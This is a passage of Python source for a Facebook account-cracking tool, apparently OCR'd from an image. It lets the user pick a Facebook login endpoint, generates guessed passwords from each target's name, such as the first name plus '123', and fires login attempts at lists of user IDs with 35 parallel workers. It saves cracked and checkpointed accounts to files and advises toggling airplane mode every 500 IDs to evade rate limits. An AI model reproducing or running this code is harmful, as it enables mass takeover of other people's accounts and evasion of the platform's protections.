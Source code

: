              self.__metode__(cebok, user, pasw)


    def __pler__(self):
        os.system('clear')
        logo()
        print ('\033[1;92mChoose Method 1/3\033[1;92m')
        print ('[1] Method 1')
        print ('[2] Method 2')
        print ('[3] Method 3')
        yan = input('\n%s[%s+%s] Select Method : '%(H,H,H))
        if yan == '':
            print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__()
        elif yan in ('1', '01'):
            xx = "free.facebook.com"
            self.kombinasi_pw(xx)
        elif yan in ('2', '02'):
            xx = "mbasic.facebook.com"
            self.kombinasi_pw(xx)
        elif yan in ('3', '03'):
            xx = "m.facebook.com"
            self.kombinasi_pw(xx)
        else:
            print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.__pler__()

    def kombinasi_pw(self,url):
        print('%s══════════════════════════════════════════════════════\n %sSetting Password Menu%s'%(H,H,H))
        print('%s[%s1%s] Password 1'%(H,H,H))
        print('%s[%s2%s] Password 2'%(H,H,H))
        pw = input(f"\n{H}[{H}+{H}]Select Password Method : ")
        if pw in[""]:
            print(f" {N}[{M}!{N}] Don't be empty");self.kombinasi_pw(url)
        elif pw in["1","01"]:
            print('%s══════════════════════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s══════════════════════════════════════════════════════\n[%s!%s] Use Airplane Mode If You No Result\n[%s!%s] Every 500 Id After Use Airplane Mode\n[%s!%s] To stop %sCTRL+c%s on keyboard\n══════════════════════════════════════'%(H,H,H,H,H,H,H,H,H))
            with YayanGanteng(max_workers=35) as kirim:
                for yntkts in self.id:
                   try:
                       uid, name = yntkts.split('|')
                       xz = name.split(' ')
                       if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                           pwx = [name, xz[0]+xz[1], xz[0]+"123",xz[0]+"1234"]
                       else:
                           pwx = [name, xz[0]+xz[1], xz[0]+"123",xz[0]+"1234"]
                       kirim.submit(self.__metode__,url,uid,pwx)
                   except:pass
            hasil(ok,cp)
        elif pw in["2","02"]:
            print('%s═════════════════════════════════════\n[%s+%s] OK : results/OK-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s[%s+%s] CP : results/CP-%s-%s-%s.txt'%(H,H,H,ha, op, ta))
            print('%s══════════════════════════════════════\n[%s!%s] Use Airplane Mode If You Result\n[%s!%s] After 500 Id Crack Use Airplane Mode\n[%s!%s] To stop %sCTRL+c%s on keyboard\n═══════════════════════════════════════'%(H,H,H,H,H,H,H,H,H))
            with YayanGanteng(max_workers=35) as kirim:
                for yntkts in self.id:
                   try:
                       uid, name = yntkts.split('|')
                       xz = name.split(' ')
                       if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6: